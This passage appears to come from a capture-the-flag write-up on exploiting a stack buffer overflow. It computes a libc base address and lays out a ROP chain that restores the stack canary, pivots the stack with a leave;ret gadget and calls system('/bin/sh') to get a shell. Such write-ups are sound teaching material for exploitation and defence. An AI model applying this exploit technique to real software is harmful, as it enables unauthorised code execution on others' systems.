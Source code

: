 Finally, it'll read in `0x40` or `64` bytes of input. After 56 bytes, it'll begin to overwrite the return address. This is great, except for the fact that we won't have any more space afterwards to stuff our payload in. Thus, we'll have to use the 56 bytes from the start of the payload address to store our payload. We'll need to create a ROP chain as we can't directly execute shellcode on the stack due to the NX bit being set. We will first calculate the libc base address so that we can retrieve addresses to `system()`, `exit()`, and the `/bin/sh` string.

```python
__libc_start_main = 0x7fe8c4f5db10
libc.address = __libc_start_main - libc.sym.__libc_start_main  # 0x7fe8c4f3c000
```

The final payload looks something like this:

```
0x00: pop_rdi_gadget
0x08: ptr_to_bin_sh     # 0x7fe8c50efe1a
0x10: call system()     # 0x7fe8c4f8b550
0x18: call exit()       # 0x7fe8c4f7f240
0x20: b'AAAAAAAA'       # Unused junk bytes
0x28: canary            # 0x815118aea9844300 (reset the canary to avoid stack smashing detection)
0x30: payload_addr - 8  # for $rsp to point to pos 0x00
0x38: leave_ret_gadget  # to perform stack pivoting
```

Upon returning from the function, the `leave_ret_gadget` at pos 0x38 is executed and sets $rsp to `(payload_addr - 8) + 8`, or pos 0x00 of our payload. Afterwards, the rest of the ROP chain is executed and we get our shell.

